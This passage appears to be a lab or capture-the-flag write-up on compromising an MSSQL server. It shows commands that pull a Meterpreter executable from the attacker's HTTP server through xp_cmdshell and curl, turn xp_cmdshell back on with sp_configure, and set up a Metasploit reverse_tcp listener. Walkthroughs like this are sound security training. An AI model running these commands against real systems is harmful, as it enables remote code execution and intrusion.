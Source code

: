 Running `python3 -m http.server 8000` into our terminal creates us a amazing way to store the .exe to the mssql.

curling our file into mssql and directly storing it we use this command.

`xp_cmdshell curl 10.10.14.138:8000/meterp_x64_tcp.exe -o C:\Windows\Temp\meterp_x64_tcp.exe`

![xp error](docs/12.png)

Hmm, we got an error, `SQL blocked access to sys.xp_cmdshell`. Luckily, we can get around this and gain acces to xp_cmdshell with just a few commands.
```
sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

![succes](docs/13.png)

We have successfully send `meterp_x64_tcp.exe` over to `C:\Windows\Temp`. That leaves us for one step. Get the listener running.

Open up your `msfconsole`.

And type in order.

```
use exploit/multi/handler

set PAYLOAD windows/x64/meterpreter/reverse_tcp

set LHOST tun0

set LPORT 4444
```
